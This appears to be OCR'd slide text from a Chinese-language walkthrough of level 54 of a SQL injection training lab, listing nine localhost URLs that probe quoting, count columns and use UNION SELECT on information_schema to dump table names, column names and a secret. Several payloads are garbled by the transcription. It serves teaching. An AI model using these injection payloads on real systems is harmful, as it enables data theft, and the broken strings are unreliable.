

# Less-54
从本关开始，开始慢慢偏向于实际环境:
本关中是对输入的次数做了限制，必须在10次请求之内获取信息，否则会刷新表名
1. http://127.0.0.1/sql/L ess-54/index.php?id=1 返回正常的信息
2. http://127.0.0.1/sql/L ess-54/index.php?id=1 '有错误，但是没有回显信息
3. http://127.0.0.1/sql/L ess-54/index.php?id=1 ‘ --+返回正常
4. http://127.0.0.1/sql/L ess-54/index.php?id=1 ' order by 1-+返回正常
5. http://127.0.0.1/sql/L ess-54/index.php?id=1 ' order by4  --+返回错误
6. http://127.0.0.1/sql/L ess-54/index.php?id=1 ' order by3  --+返回正常，说明存在三列
7. http://127.0.0.1/sql/L ess-54/index.php?id=1 union select 1,2,group concat(table_name) from
Information_schema_tables where table_schema =0x4348414c4c454e474553  --+爆出表名，因为我们已经知道数据库的
名字是challenges
8. http://127.0.0.1/sql/L ess-54/index.php?id=1 ' union select 1,2,group_concat(column_name) from
Information_schema.columns where table._name =0x6a7a3063323772396c38  --+ 取出所有的列名
9. http://127.0.0.1/sql/L ess-54/index.php?id=1 ' union select 1,2,group concat( concat ws(0x7e,id,sessid,secret BTL5,tryy))
from challenges. jz0c27r9I8 --+取出所有的数据
。